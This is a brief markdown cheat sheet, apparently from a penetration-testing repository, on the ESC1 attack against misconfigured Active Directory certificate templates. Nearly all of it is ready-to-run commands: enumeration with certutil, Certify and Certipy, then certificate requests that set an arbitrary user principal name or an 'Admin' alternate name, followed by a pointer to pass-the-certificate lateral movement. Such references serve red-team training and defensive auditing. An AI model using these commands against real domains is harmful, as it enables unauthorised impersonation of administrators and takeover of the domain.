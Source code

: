 # ESC1 - Misconfigured Certificate Templates

## Enumeration

 - certutil -v -dsTemplate

 - certify.exe find [/vulnerable]

 - certipy find -u USER@DOMAIN -p PASSWORD -dc-ip DOMAIN_CONTROLLER

## Exploitation

 - certipy req -u USER@DOMAIN -p PASSWORD -target CA_SERVER -template 'VULNERABLE_TEMPLATE_NAME' -ca CA_NAME -upn TARGET_USER@DOMAIN (Linux)

 - certify.exe request /ca:SERVER\CA_NAME /template:"VULNERABLE_TEMPLATE_NAME" [/altname:"Admin"] (Windows)

### With this attack, we now perform Pass the Certificate Lateral Movement

